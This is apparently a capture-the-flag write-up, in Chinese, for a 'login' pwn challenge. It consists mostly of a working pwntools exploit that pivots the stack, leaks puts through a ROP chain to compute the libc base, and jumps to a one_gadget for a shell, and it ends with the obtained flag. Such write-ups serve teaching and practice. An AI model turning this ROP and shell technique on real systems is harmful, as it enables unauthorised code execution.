 - 调试时发现read pw时 `buf: 0x6023f0` ，故RA在`0x6023f0 + 0x20 + 0x8`，即在`name+0x18`的位置上，填上`one_gadget`地址，即可getshell，但是具体用哪个`one_gadget`就无法控制了，每个`one_gadget`都有一个约束条件，但是没想到有什么能够去满足约束条件的操作，只能调试一下，或者直接一个个试，看看哪个约束会被满足，就选用哪个

# Exploit

```python
from pwn import *

# v40 = "A7A5577A292F2321"  # 21232F297A57A5A7
# v41 = "C31F804A0E4A8943"  # 43894A0E4A801FC3
# "21232F297A57A5A743894A0E4A801FC3"

# one_gadget = 0x45226 # 0x4527a 0xf03a4 0xf1247
context.log_level = "DEBUG"

context.binary = './login'
sh = process("./login")  # , env={'LD_PRELOAD': './libc.so.6'}
# process(['ld.so','pwn'],env=xxx)
# sh = remote("node3.buuoj.cn", 27490)
libc = ELF("./libc.so.6")
elf = ELF("./login")
# 0x401972 main_logic: leave; 0x40191C main_logic: read pw
gdb.attach(sh, "b *(0x401972)\nb *(0x40191C)\nc")

# ===== step-1 控制rbp 进而控制rsp rip, 跳转回主要逻辑所在的函数 call 0x4018C7 的地址 0x4018BF
# 用前面的地址0x4018BF是为了让buf name地址差0x20（调试可得）多一个call = 多一个push
payload = b"admin\0".ljust(0x8, b'\0') + p64(0x4018BF)  # name 输入限制0x20
sh.sendafter(">", payload)
payload = b"admin\0".ljust(0x20, b'\0') + p64(0x602400)  # pw 输入限制0x28 # 修改rbp的值 第二次leave修改rsp的值
sh.sendafter(">", payload)

# buf 0x6023e0  +0x20 = s1 name 602400 # name + 8为返回地址
# ===== step-2 构造ROP 泄露puts真实地址 得到libc基址 并返回到main_logic里再执行一次
# payload: p64(pop rdi, ret) p64(puts@got) p64(0x4018B5) # 0x4018B5
# 如果buf偏移量并非+0x20=name, 则buf写入后不做操作可能会把name覆盖掉 导致判断时Oh no
# 0x401ab3 : pop rdi ; ret
payload = b"admin\0".ljust(0x8, b'\0') + p64(0x401ab3) + p64(elf.got['puts']) + p64(0x4018B5)
sh.sendafter(">", payload)
payload = b"admin\0".ljust(0x8, b'\0')
sh.sendafter(">", payload)

data = sh.recvuntil("GeBai\n")
addr_puts = u64(sh.recvline(keepends=False).ljust(8, b'\0'))
print("addr_puts=", hex(addr_puts))
libc.address = addr_puts - libc.sym['puts']
print("libc.address =", hex(libc.address))

# ===== step-3 ret to one_gadget RA可控原因：name可控区域包含返回地址
payload = b"admin\0".ljust(0x18, b'\0') + p64(libc.address + 0xf1247)  # gdb调试 让地址放在RA处
# 具体用哪一个one_gadget不清楚 远程蒙的 0xf1247蒙对了 可用
sh.sendafter(">", payload)
payload = b"admin\0".ljust(0x8, b'\0')
sh.sendafter(">", payload)


sh.interactive()  # then cat flag.txt at server
# flag{9c2090bf-8a0b-4785-9577-c34f070903a4}

```

